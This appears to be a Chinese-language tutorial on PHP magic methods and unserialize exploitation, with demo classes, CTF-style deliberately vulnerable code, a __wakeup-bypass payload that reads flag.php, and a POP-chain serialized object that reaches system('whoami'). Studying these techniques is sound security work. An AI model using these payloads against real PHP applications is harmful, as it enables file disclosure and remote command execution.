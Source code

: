 ## 魔术方法

```
__construct(),类的构造函数
__destruct(),类的析构函数
__call(),在对象上下文中调用不可访问的方法时调用
__callStatic(),在静态上下文中调用不可访问的方法时调用
__get(),用于从不可访问的属性读取数据,有时可用于构造POP链
__set(),用于将数据写入不可访问的属性
__isset(),当对不可访问属性调用isset()或empty()时调用
__unset(),当对不可访问属性调用unset()时被调用
__sleep(),执行serialize()时,先会调用这个函数
__wakeup(),执行unserialize()时,先会调用这个函数
__toString(),类被当成字符串时的回应方法,有时可用于构造POP链
__invoke(),当脚本尝试将对象调用为函数时触发
```

### __sleep()与__wakeup()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function showstr(){
        echo $this->str.'<br>';
    }
    public function __sleep(){//serialize前调用
        echo __METHOD__.'<br>';
        return array('a','c');//只返回了$this->a和$this->c,返回需要被序列化存储的成员属性,删减不必要
    }
    public function __wakeup(){//unserialize前调用
        echo __METHOD__.'<br>';
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
$test->showstr();
$s_test=serialize($test);
echo $s_test.'<br>';
$u_test=unserialize($s_test);
$u_test->showstr();
?>
```

```
a asdf,b qwer,c 1234
Demo::__sleep
O:4:"Demo":2:{s:1:"a";s:4:"asdf";s:1:"c";s:4:"1234";}
Demo::__wakeup
a asdf,b ,c 1234
```

### __toString()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function __toString(){
        return $this->str;
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
echo $test;
?>
```

```
a asdf,b qwer,c 1234
```

### 绕过__wakeup()

**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

>仅使用于 PHP5<5.6.25 PHP7<7.0.10

```php
<?php 
class SoFun{ 
    protected $file='index.php';
    function __destruct(){
        if(!empty($this->file)) {
            if(strchr($this-> file,"\\")===false&&strchr($this->file, '/')===false){
                show_source(dirname (__FILE__).'/'.$this ->file);
            }
            else{
                die('Wrong filename.');
            }
        }
    }
    function __wakeup(){
        $this-> file='index.php';
    } 
    public function __toString(){
        return '';
    }
}     
if(!isset($_GET['file'])){ 
    show_source('index.php');
}
else{
    $file=base64_decode($_GET['file']);
    unserialize($file);
}
?>
```

`O:5:"SoFun":1:{s:7:"*file";s:9:"index.php";}`

`O:5:"SoFun":2:{s:7:"*file";s:8:"flag.php";}`

payload`?file=Tzo1OiJTb0Z1biI6Mjp7Uzo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

### __call()与__invoke()

在对象中调用一个不可访问方法时`__call()`会被调用

```php
<?php

class A
{
    public $class;
    public $parameter;

    public function __destruct()
    {
        if (isset($this->class) && isset($this->parameter)) {
            $this->class->system($this->parameter);
        }

    }
}

class B
{
    public function __call($callback,$parameter)#callback=system
    {
        call_user_func_array($callback,$parameter);
    }
}
$str = '???';
unserialize($str);
```

```php
<?php

class A
{
    public $class;
    public $parameter;
}

class B
{

}

$a=new A();
$b=new B();
$a->class=$b;
$a->parameter="whoami";
var_dump(serialize($a));
```

`O:1:"A":2:{s:5:"class";O:1:"B":0:{}s:9:"parameter";s:6:"whoami";}`

当尝试以调用函数的方式调用一个对象时`__invoke()`方法会被自动调用

```php
<?php

class A
{
    public function __invoke($a)
    {
        var_dump($a);
    }
}

$a = new A;
$a("asdf");
```